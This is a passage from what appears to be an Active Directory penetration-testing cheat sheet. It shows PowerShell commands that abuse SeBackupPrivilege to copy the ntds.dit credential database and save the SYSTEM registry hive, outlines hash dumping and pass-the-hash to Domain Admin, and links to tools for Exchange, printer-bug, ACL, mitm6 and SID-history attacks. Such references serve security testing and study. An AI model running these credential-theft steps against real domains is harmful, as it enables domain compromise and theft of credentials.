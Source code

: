 ```
```
2) Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just 
simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are 
going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:
```
#Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
#Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
#If it isn't we enable it
Set-SeBackupPrivilege
  
#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
#Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
3) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
4) Use secretsdump.py from impacket and dump the hashes.
5) Use psexec or another tool of your choice to PTH and get Domain Admin access.
### Abusing Exchange
- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange
### Weaponizing Printer Bug
- [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
### Abusing ACLs
- [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)
### Abusing IPv6 with mitm6
- [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)
### SID History Abuse
*WUT IS DIS?: If we manage to compromise a child domain of a forest and [SID filtering](https://www.itprotoday.com/windows-8/sid-filtering) isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the [SID History](https://www.itprotoday.com/windows-8/sid-history) field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.*
